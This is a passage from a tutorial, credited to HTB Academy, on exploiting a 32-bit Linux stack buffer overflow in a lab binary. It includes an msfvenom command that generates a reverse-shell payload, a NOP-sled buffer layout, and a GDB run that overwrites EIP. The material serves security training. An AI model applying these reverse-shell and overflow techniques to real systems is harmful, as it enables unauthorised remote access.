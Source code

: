 Now we should find out how much space we have for our shellcode to perform the action we want. It is trendy and useful for us to exploit such a vulnerability to get a reverse shell. First, we have to find out approximately how big our shellcode will be that we will insert, and for this, we will use `msfvenom`.

#### Shellcode - Length

  Determine the Length for Shellcode

```shell-session
frodonomojo@htb[/htb]$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.0.0.1 lport=31337 --platform linux --arch x86 --format c

No encoder or badchars specified, outputting raw payload
Payload size: 68 bytes
<SNIP>
```

We now know that our payload will be about 68 bytes. As a precaution, we should try to take a larger range if the shellcode increases due to later specifications.

Often it can be useful to insert some `no operation instruction` (`NOPS`) before our shellcode begins so that it can be executed cleanly. Let us briefly summarize what we need for this:

1. We need a total of 1040 bytes to get to the `EIP`.
2. Here, we can use an additional `100 bytes` of `NOPs`
3. `150 bytes` for our `shellcode`.

  Determine the Length for Shellcode

```shell-session
   Buffer = "\x55" * (1040 - 100 - 150 - 4) = 786
     NOPs = "\x90" * 100
Shellcode = "\x44" * 150
      EIP = "\x66" * 4
```

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_8.png)

Now we can try to find out how much space we have available to insert our shellcode.

#### GDB

  Determine the Length for Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 100 - 150 - 4) + "\x90" * 100 + "\x44" * 150 + "\x66" * 4')
Program received signal SIGSEGV, Segmentation fault.
0x66666666 in ?? ()
```

#### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_7.png)

**Credit:** This information was adapted from an excellent guide on [HTB Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86). Be sure to check out the original post for more details.